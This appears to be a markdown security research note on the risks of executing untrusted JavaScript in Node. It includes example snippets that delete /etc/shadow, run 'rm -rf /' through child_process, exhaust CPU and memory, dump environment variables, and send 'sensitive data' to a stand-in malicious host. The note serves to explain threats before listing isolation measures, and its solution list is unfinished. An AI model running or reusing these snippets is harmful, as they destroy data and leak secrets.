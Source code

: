 # Research on running untrusted JavaScript code on another environment

## Introduction

Running untrusted javascript code on the server introduces significant security risks because javascript has access to underlying
APIs and System capabilities provided by the runtime environment (e.g Node, Deno) that if misused can compromise the server environment, other 
running applications, or the confidentiality, integrity and availability of data.

## Key Security Risk

- Arbitrary code execution: If the untrusted javascript code is executed, an attacker can use the provided underlying APIs and system capabilities
provided by the runtime, to run malicious code that can alter env variables, delete or edit or create files and even sensitive files like system files.

Let's take for instance, your `/etc/shadow` file in linux environment, which contains all hashed passwords of your system accounts, this is especially true
if the runtime was given super-user privileges.
```javascript
const fs = require('fs')
fs.unlinkSync('/etc/shadow')
```

- Denial of Service (Dos): Malicious code can be designed to consume excessive resources (CPU, memory, etc.), leading to a denial of service attack, making the server
unresponsive.
Example: Infinite loop.
```javascript
while(true) {}
```
Example: Memory exhaustion
```javascript
const arr = []
while (true) arr.push(new Array(1000000).fill('data'))
```
It can also be used to perform some sort of ReDos attacks.

- Access to sensitive data: Untrusted JavaScript can access environmental variables, read config files and extract sensitive process information.
```javascript
console.log(process.env)
```

- Unauthorized Network access: JavaScript running on NodeJs or any runtime that has capabilities of networking APIs, thus malicious code can make
unauthorized network requests, potentially attacking other services (e.g DDos other services) or sending data to another malicious service.
```javascript
const http = require('http')
http.request({ host: 'https://m.alicious.com/', port: 80 }, (res => console.log(res))).end('Sensitive data')
```

- Path traversal: Even malicious code can use path traversal to access files outside the intended directory.

- Escape from sandboxing: JavaScript when running in runtime environment such as NodeJs has rich capabilities that allow it to bypass simple
sandboxing mechanisms. Using eval or similar functions to execute arbitrary code increases the risk of sandbox escape.

```javascript
const arbitraryCode = 'require("fs").unlinkSync("somefile")'
eval(arbitraryCode)
```

- Native injection attacks: As popular runtimes have the ability to access and execute native scripting languages provided by the os

```javascript
const exec = require('child_process').exec
exec('rm -rf / #Oops')
```

Solution:

1. Implement Container-Level Isolation:
- Create a docker container using node:alpine
- Limit container permissions
- Limit resource usage
- Networking restrictions
- 


